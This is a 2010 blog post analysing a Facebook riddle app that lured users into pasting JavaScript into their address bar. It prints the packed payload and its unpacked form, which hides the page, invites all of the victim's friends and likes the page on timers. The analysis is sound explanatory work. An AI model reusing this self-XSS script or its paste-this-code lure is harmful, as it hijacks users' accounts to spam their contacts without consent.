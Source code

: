 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
render_with_liquid: false
---
```


Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

``` javascript
javascript: (function () {
    a = 'app112010525500764_jop';
    b = 'app112010525500764_jode';
    ifc = 'app112010525500764_ifc';
    ifo = 'app112010525500764_ifo';
    mw = 'app112010525500764_mwrapper';
    eval(function (p, a, c, k, e, r) {
        e = function (c) {
            return (c < a ? '' : e(parseInt(c / a))) + ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        };
        if (!''.replace(/^/, String)) {
            while (c--) r[e(c)] = k[c] || e(c);
            k = [function (e) {
                return r[e]
            }];
            e = function () {
                return '\\w+'
            };
            c = 1
        };
        while (c--) if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
        return p
    }('J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);', 62, 69, '||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||'.split('|'), 0, {}))
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

``` javascript
d = document;
d['getElementById'](mw)['style']['visibility'] = 'hidden';
d['getElementById'](a)['innerHTML'] = d['getElementById'](b)['value'];
s = d['getElementById']('suggest');
m = d['getElementById']('likeme');
c = d['createEvent']('MouseEvents');
c['initEvent']('click', true, true);
s['dispatchEvent'](c);
setTimeout(function () {
    fs['select_all']()
}, 5000);
setTimeout(function () {
    SocialGraphManager['submitDialog']('sgm_invite_form', '/ajax/social_graph/invite_dialog.php')
}, 5000);
setTimeout(function () {
    m['dispatchEvent'](c);
    d['getElementById'](ifo)['innerHTML'] = d['getElementById'](ifc)['value']
}, 5000);
```

Lets go though the code above step by step.

``` javascript
d['getElementById'](mw)['style']['visibility'] = 'hidden';
```

This code hides the application's main block.

``` javascript
d['getElementById'](a)['innerHTML'] = d['getElementById'](b)['value'];
```

The contents of the textarea at id b ('app112010525500764\_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

``` html
<textarea id="app112010525500764_jode" style="display: none;" fbcontext="86d477030eb0">
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

``` javascript
s = d['getElementById']('suggest');
m = d['getElementById']('likeme');
c = d['createEvent']('MouseEvents');
c['initEvent']('click', true, true);
s['dispatchEvent'](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

``` javascript
setTimeout(function () {
    fs['select_all']()
}, 5000);
setTimeout(function () {
    SocialGraphManager['submitDialog']('sgm_invite_form', '/ajax/social_graph/invite_dialog.php')
}, 5000);
setTimeout(function () {
    m['dispatchEvent'](c);
    d['getElementById'](ifo)['innerHTML'] = d['getElementById'](ifc)['value']
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?
